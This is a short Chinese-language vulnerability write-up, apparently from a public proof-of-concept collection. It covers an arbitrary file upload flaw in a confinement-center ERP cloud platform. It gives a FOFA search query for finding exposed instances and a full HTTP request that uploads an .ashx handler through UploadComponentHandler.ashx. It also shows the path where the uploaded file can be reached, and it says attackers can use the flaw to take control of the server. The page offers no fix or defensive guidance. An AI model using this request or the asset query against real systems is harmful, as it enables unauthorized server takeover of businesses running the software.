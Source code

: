 # 月子会所ERP管理云平台UploadComponent任意文件上传漏洞

# 一、漏洞简介
月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。

# 二、影响版本
+ 月子会所ERP管理云平台

# 三、资产测绘
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/gY9C_r2Y0iYGY2BO/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-072945.png)

# 四、漏洞复现
```plain
POST /Page/UploadComponent/UploadComponentHandler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 481
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--
```

![1693185672475-3ec6cca2-4d1a-4ca1-bb1a-511929b82e4a.png](./img/gY9C_r2Y0iYGY2BO/1693185672475-3ec6cca2-4d1a-4ca1-bb1a-511929b82e4a-206384.png)

上传文件位置

```plain
http://xx.xx.xx.xx/UploadBaseFolder/ERP/202308/1_230828092026228129.ashx
```

![1693185711006-d52a0121-dbfa-4151-91a9-8a68a5ca3edb.png](./img/gY9C_r2Y0iYGY2BO/1693185711006-d52a0121-dbfa-4151-91a9-8a68a5ca3edb-460244.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kwthyxdkdkmqfpfc>